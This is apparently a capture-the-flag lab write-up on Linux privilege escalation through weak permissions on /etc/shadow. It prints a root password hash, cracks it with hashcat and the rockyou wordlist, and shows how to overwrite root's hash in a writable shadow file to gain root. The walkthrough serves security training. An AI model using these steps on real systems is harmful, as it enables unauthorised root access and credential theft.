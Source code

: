 # Task 3 : Weak File Permissions - Readable /etc/shadow

Checking permission on */etc/shadow*
```
ls -l /etc/shadow
```
then read the file using `cat /etc/shadow`\
*root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::*

Identify the hash using hashcat 

```
hashcat '$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0'
```
output
```
1800 | sha512crypt $6$, SHA512 (Unix) | Operating System
```

now store the hash and crack it
```
hashcat -a 0 -m 1800 hash.txt /path/rockyou.txt
```
if previously used then it won't show just use 
```
hashcat -a 0 -m 1800 hash.txt ../rockyou.txt --show
```
ouptut
```
$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:password123
```

# Task 4 : Weak File Permissions - Writable /etc/shadow

Checking permission on */etc/shadow*
```
ls -l /etc/shadow
```
it's writable so Generate a new password hash with a password of your choice:
```
mkpasswd -m sha-512 newpasswordhere
```
output
```
$6$Cd1QRSVOD8km$KAi07b699vqKBIZ8df6OEM.E2gERFDkuQb.8wuyT.BIGal6yV0yTyGCupw27wj4CCJO98woiVjJrJyI45glrH/
```
now edit the *e/tc/shadow*\
replace the \
`root:<put_your_generated_hash_here:17298:0:99999:7:::`\
save and login using `su root`
